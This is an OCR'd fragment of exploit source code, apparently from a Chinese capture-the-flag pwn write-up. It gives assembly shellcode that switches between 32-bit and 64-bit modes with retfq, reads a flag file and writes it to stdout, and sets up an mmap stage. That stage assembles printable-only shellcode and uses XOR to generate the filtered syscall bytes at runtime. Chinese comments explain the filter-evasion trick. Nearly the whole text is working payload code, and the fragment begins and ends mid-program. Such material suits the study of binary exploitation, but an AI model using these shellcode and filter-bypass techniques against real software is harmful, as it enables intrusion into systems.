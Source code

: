 ```bash
push 0x40404089
retfq

/*read(fp,buf,0x70)*/
mov rdi,rcx
mov rsi,rsp
mov rdx,0x70
xor rax,rax
syscall

/*write(1,buf,0x70)*/
mov rdi,1
mov rax,1
syscall
'''
shellcode_x86 = asm(shellcode_x86)
shellcode_flag = asm(shellcode_flag, arch = 'amd64', os = 'linux')
shellcode = ''

# 0x40404040 为 32 位 shellcode 地址
shellcode_mmap = '''
/*mmap(0x40404040,0x7e,7,34,0,0)*/
push 0x40404040 /*set rdi*/
pop rdi

push 0x7e /*set rsi*/
pop rsi

push 0x40 /*set rdx*/
pop rax
xor al,0x47
push rax
pop rdx

push 0x40 /*set r8*/
pop rax
xor al,0x40
push rax
pop r8

push rax /*set r9*/
pop r9

/*syscall*/
/* syscall 的机器码是 0f 05, 都是不可打印字符。*/
/* 用异或运算来解决这个问题：0x0f = 0x5d^0x52, 0x05 = 0x5f^0x5a. */
/* 其中 0x52,0x5a 由 append 提供。*/
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x31],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x32],cl

push 0x22 /*set rcx*/
pop rcx

push 0x40/*set rax*/
pop rax
xor al,0x49
'''
```